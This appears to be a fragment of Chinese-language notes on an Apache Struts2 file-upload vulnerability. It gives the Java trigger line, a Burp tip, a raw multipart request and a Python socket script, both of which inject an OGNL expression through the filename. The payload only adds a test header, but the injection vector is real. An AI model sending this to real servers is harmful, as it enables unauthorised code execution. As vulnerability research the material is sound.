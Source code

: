 ```java
}
```

触发点
```java
LOG.warn("Skipped stream '#0', request maximum size (#1) exceeded.", itemStream.getName(), maxSize);
```

[原文](http://www.360zhijia.com/360anquanke/186154.html)

burp修改大小发送请求失败时候，可以试着去掉菜单栏`Repeater-->Update Content-Length`的勾选，然后进行实验，这样修改的大小不会在被burp修改。

```html    
POST /doUpload.action HTTP/1.1
Host: localhost:8080
Content-Length: 10000000
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryAnmUgTEhFhOZpr9z
Connection: close
 
------WebKitFormBoundaryAnmUgTEhFhOZpr9z
Content-Disposition: form-data; name="upload"; filename="%{&#35;context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('X-Test','Kaboom')}"
Content-Type: text/plain
Kaboom 
 
------WebKitFormBoundaryAnmUgTEhFhOZpr9z--
```

```python
    #!/usr/bin env python
    import socket
    host="xxxxx"
    se=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    se.connect((host,80))
    se.send("GET / HTTP/1.1\n")
    se.send("User-Agent:curl/7.29.0\n")
    se.send("Host:"+host+"\n")
    se.send("Accept:*/*\n")
    se.send("Content-Type:multipart/form-data; boundary=---------------------------735323031399963166993862150\n")
    se.send("Connection:close\n")
    se.send("Content-Length:1000000000\n")
    se.send("\n\n")
    se.send("-----------------------------735323031399963166993862150\n")
    se.send('Content-Disposition: form-data; name="foo"; filename="%{&#35;context[\'com.opensymphony.xwork2.dispatcher.HttpServletResponse\'].addHeader(\'X-Test\',\'Kaboom\')}"\n')
    se.send("Content-Type: text/plain\n\n")
    se.send("x\n")
    se.send("-----------------------------735323031399963166993862150--\n\n")
    while True:
      buf = se.recv(1024)
      if not len(buf):
        break
      print buf
```
